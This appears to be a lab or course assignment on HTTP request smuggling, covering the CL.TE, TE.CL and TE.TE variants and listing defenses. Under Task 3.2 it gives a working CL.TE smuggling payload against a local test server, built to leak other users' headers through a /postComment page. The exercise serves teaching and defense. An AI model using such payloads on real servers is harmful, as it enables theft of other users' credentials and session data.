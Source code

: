 # Task 3
There are generally 3 types of HTTP request smuggling attacks:
- **CL.TE**: The front end uses the Content-Length while the back end server uses Transfer-Encoding.
- **TE.CL**: The front end trusts Transfer-Encoding but the back end relies on Content-Length.
- **TE.TE**: Both the frontend and backend parse Transfer-Encoding, but the header can be obfuscated.

## Task 3.1 Craft an HTTP request smuggling request in an attack type of your choice
This problem isn't tested via `test.py` but feel free to try it against the server to see if it works. Be ready to explain how the attack works and what causes the payload to "execute".

## Task 3.2 Bypass the authentication on the first server
The objective is to leak sensitive headers by redirecting the user to the /postComment page. Having a page that makes persistent and public (aka "reflected" to a page) a POST parameter is indicative of http smuggling header leakage vulnerabilities.

Write the attack in `attack1.txt`.

**Tip: remember the responses we get from the server**

POST / HTTP/1.1
Host: localhost:8080
Content-Length: 10
Transfer-Encoding: chunked

0

POST /postComment HTTP/1.1
Host: localhost:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 90

x=

## Task 3.3 Name and explain 3 defense types against HTTP request smuggling
- Ensure that frontend and backend servers interpret HTTP requests the same way
- Normalize HTTP requests before passing them to the backend
- reject request with both content-length and transfer-encoding header
